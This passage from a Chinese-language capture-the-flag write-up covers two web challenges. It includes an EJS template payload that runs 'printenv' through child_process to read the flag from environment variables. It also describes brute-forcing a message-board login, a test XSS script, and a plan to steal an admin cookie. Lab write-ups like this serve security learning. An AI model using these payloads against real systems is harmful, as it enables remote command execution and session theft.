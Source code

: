 将ejs上传

![image-20250206154845681](../assets/image-20250206154845681.png)

覆写原来的ejs

![image-20250206155252476](../assets/image-20250206155252476.png)

访问/

![image-20250206155341848](../assets/image-20250206155341848.png)

这题flag藏在环境变量里

payload:

```
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div>
        <%= process.mainModule.require('child_process').execSync('printenv') %>
    </div>
</body>
</html>
```





![image-20250206155810074](../assets/image-20250206155810074.png)



### Level 69 MysteryMessageBoard

密码爆破，XSS cookie窃取

![image-20250206160024933](../assets/image-20250206160024933.png)

爆出来 shallot/888888

登进去看到一个留言板

![image-20250206160118188](../assets/image-20250206160118188.png)

猜测是xss，测试一下

```
<script>alert('XSS')</script> 
```

![image-20250206160225628](../assets/image-20250206160225628.png)

同时通过dirsearch扫到了/admin路由
